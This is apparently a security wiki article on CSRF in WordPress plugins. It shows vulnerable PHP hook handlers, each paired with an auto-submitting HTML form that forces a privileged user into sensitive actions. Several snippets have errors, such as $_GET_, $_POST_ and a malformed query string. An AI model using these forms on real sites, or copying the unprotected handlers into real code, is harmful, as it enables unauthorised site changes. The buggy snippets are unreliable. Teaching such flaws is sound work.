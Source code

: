 ```yaml
---
title: Cross-Site Request Forgery (CSRF)
contributors:
    - rafiem
---
```


## Introduction

This article covers cases of possible CSRF on WordPress. This includes improper hook/function/code usage inside of the plugin/theme which can be used to trick privileged users into doing sensitive actions.

By default, processes on hooks or functions that are used on plugins or themes don't have a permission and nonce value check, that's why the developer needs to manually perform a permission check using [`current_user_can`](/wordpress/wordpress-internals/wordpress-functions/#current_user_can) function, and the nonce value check using [`wp_verify_nonce`](/wordpress/wordpress-internals/wordpress-functions/#wp_verify_nonce), [`check_admin_referer`](/wordpress/wordpress-internals/wordpress-functions/#check_admin_referer) or [`check_ajax_referer`](/wordpress/wordpress-internals/wordpress-functions/#check_ajax_referer) functions.

## `init` hook

For more details on the `init` hook, please refer to this [documentation](/wordpress/wordpress-internals/wordpress-hooks/#init-hook).

Example of vulnerable code :

```php
add_action("init", "check_if_update");

function check_if_update(){
  if(isset($_GET["update"])){
    if(current_user_can("manage_options")){
      update_option("user_data", sanitize_text_field($_GET_["data"]));
    }
  }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
 <body>
  <form action="<WORDPRESS_BASE_URL>" method="POST">
   <input type="hidden" name="update" value="1" />
   <input type="hidden" name="data" value="test" />
   <input type="submit" value="Submit request" />
  </form>
  <script>
   history.pushState('', '', '/');
   document.forms[0].submit();
  </script>
 </body>
</html>
```

## `admin_init` hook

For more details on the `admin_init` hook, please refer to this [documentation](/wordpress/wordpress-internals/wordpress-hooks/#admin_init-hook).

Example of vulnerable code :

```php
add_action("admin_init", "delete_admin_menu");

function delete_admin_menu(){
  if(isset($_POST_["delete"])){
    if(current_user_can("manage_options")){
      delete_option("custom_admin_menu");
    }

  }
}
```

In order to exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
 <body>
  <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=heartbeat" method="POST">
   <input type="hidden" name="delete" value="1" />
   <input type="submit" value="Submit request" />
  </form>
  <script>
   history.pushState('', '', '/');
   document.forms[0].submit();
  </script>
 </body>
</html>
```

## `wp_ajax_{$action}` hook

For more details on the `wp_ajax_{$action}` hook, please refer to this [documentation](/wordpress/wordpress-internals/wordpress-hooks/#wp_ajax_action-hook).

Example of vulnerable code :

```php
add_action("wp_ajax_update_post_data", "update_post_data");

function update_post_data(){
  if(isset($_POST_["update"])){
    $post_id = get_post($_GET["id"]);
    update_post_meta($post_id, "data", sanitize_text_field($_POST["data"]));
  }
}
```

To exploit this, unauthenticated users just need to craft and serve a malicious HTML file and trick privileged users into visiting the HTML file to do the sensitive actions.

```html
<html>
 <body>
  <form action="<WORDPRESS_BASE_URL>/wp-admin/admin-ajax.php?action=update_post_data?id=1" method="POST">
   <input type="hidden" name="update" value="1" />
   <input type="hidden" name="data" value="test" />
   <input type="submit" value="Submit request" />
  </form>
  <script>
   history.pushState('', '', '/');
   document.forms[0].submit();
  </script>
 </body>
</html>
```